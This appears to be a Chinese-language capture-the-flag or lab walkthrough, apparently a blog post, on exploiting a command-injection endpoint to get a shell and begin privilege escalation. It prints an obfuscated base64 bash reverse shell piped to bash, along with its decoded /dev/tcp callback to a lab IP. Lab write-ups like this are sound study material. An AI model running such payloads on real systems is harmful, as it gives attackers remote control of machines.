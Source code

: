 下载看看

开放了一个1337端口和7331端口

![image.png](https://s2.loli.net/2025/05/09/iLdyWYsQ2JkODa8.png)


说是要回答1000次才会有奖品

## 无思路
其实到这里已经有点难绷了

看了一眼源码有个这个东西 应该是账户密码之类的
![image.png](https://s2.loli.net/2025/05/09/9fUKi8sPYuJzSr7.png)

## 字典爆破7311

这个端口进行字典爆破

![image.png](https://s2.loli.net/2025/05/09/nuacsQ7UfmMroyw.png)


发现有两个路径

其中一个是个命令注入

![image.png](https://s2.loli.net/2025/05/09/qaEGmoMC3fiS4jg.png)



![](https://s2.loli.net/2025/05/09/9Uj6eqXoN2YPZMh.png)

藏这么深 想办法进行反弹shell

正常输入是没得效果的 转编码试试

好家伙 也是没用的 这个说实话真不会 看了wp才知道


```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMC4xMjgvODg4OCAwPiYx" | base64 -d | bash

bash -i >& /dev/tcp/192.168.110.128/8888 0>&1转成base64 这么去让那个界面执行反弹shell
```

![image.png](https://s2.loli.net/2025/05/09/UrX6BJfHpOGYhMm.png)

## 提权
也是没有头绪 也是没有去认真信息收集 错失一个信息点

![image.png](https://s2.loli.net/2025/05/09/2RGHzfkjEZ81TN5.png)



切换到nitish用户

![image.png](https://s2.loli.net/2025/05/09/wYVPBu4GrlZbvKO.png)
